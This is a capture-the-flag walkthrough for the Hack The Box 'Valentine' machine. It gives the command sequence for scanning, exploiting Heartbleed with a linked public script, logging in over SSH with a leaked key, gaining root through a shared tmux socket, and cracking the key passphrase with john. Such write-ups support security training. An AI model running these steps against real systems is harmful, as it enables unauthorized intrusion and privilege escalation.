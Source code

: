 # Valentine Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -sV -oA fullvalentine 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275306-eb574609-4275-4964-858c-8b147bf128df.png)

``nmap --script vuln 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226275482-d6658d91-913a-40a9-a3d5-e6f93adc279d.png)

``sslyze --heartbleed 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226279997-6049896b-91cb-4607-a47d-1ffe4535246e.png)

# ${{\color{purple}Initial Foothold}}\ $

``gobuster dir -u http://10.10.10.79/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30``

![image](https://user-images.githubusercontent.com/123066149/226275598-b788e58a-00c1-426f-bb9b-a7efd341a082.png)

# ${{\color{purple}Exploitation}}\ $

### Gobuster finds a hype_key file as well as encode and decode directories.

![image](https://user-images.githubusercontent.com/123066149/226276015-3f1bd717-17c1-4b48-9002-afe56c27a67e.png)

![image](https://user-images.githubusercontent.com/123066149/226276237-43b610ce-a170-4f7e-937a-90e61116aa3a.png)

![image](https://user-images.githubusercontent.com/123066149/226276374-46434383-bf4a-4d81-887e-c98f8e5a7a6c.png)

### I used this exploit to exploit heartbleed vulnerability :

https://gist.github.com/eelsivart/10174134#file-heartbleed-py

``python2.7 heartbleed.py 10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226276713-88458e71-4a8f-4033-bede-d88004275522.png)

### Decoding the base64 reveals the passphrase for hype_key which can be used to connect via
SSH as the hype user.

``echo -n aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg== | base64 -d``

![image](https://user-images.githubusercontent.com/123066149/226276792-4e7158f6-deaf-4959-9e9d-3337fcf97266.png)

``chmod 600 hype.key``

![image](https://user-images.githubusercontent.com/123066149/226277154-225a9196-5d86-4915-a3ba-87b20e1e8f17.png)

``ssh -o PubkeyAcceptedKeyTypes=+ssh-rsa -i hype.key hype@10.10.10.79``

![image](https://user-images.githubusercontent.com/123066149/226277251-a1b78f1e-9e9b-4940-bfce-778226663984.png)

# ${{\color{purple}Privilege Escalation}}\ $

### The content of the bash history file allows me to see that the user uses tmux :

``cat .bash_history``

![image](https://user-images.githubusercontent.com/123066149/226277399-e78d8cd9-bd24-480a-b3b9-2a4d0552002f.png)

### Running ps aux reveals a tmux session being run as the root user.

``ps aux | grep -i tmux``

![image](https://user-images.githubusercontent.com/123066149/226277499-1ee81bd5-02f0-4be1-a646-f64cb3f179e9.png)

``ls -la /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277620-9b7a96b0-d6f9-4bbe-82d0-9bd2c6a8bbc8.png)

### Simply running the command tmux -S /.devs/dev_sess will connect to the session, with full root
privileges :

``export TERM=xterm``
``tmux -S /.devs/dev_sess``

![image](https://user-images.githubusercontent.com/123066149/226277753-c73f7e1c-47b8-4385-a90c-3e6efd09b428.png)

# ${{\color{purple}Points of Improvement}}\ $

* Verify with sslyze to check if the server is vulnerable 
* It's possible to avoid ssh errors by editing the ``~/.ssh/config`` file
* Don't hesitate to replay the exploit to find the right information in memory
* Always run an ``nmap vuln script``
* Another way if there was no vuln heartbleed :

![image](https://user-images.githubusercontent.com/123066149/226278942-de8cf395-1dc1-411b-a403-6d6256e2d706.png)

``ssh2john hype.key > hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279015-5b346708-eb1e-4581-af77-29d4ccac8c97.png)

![image](https://user-images.githubusercontent.com/123066149/226279076-6cf2dffb-63de-49c6-b37b-265fd78f7497.png)

``john --wordlist=/home/kali/Downloads/rockyou.txt hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279210-1f4135c4-832f-4223-9ef4-c227ace94b59.png)

``john --show hype_key.hash``

![image](https://user-images.githubusercontent.com/123066149/226279299-68529ded-91c1-4c32-851c-65bfcc6510cf.png)

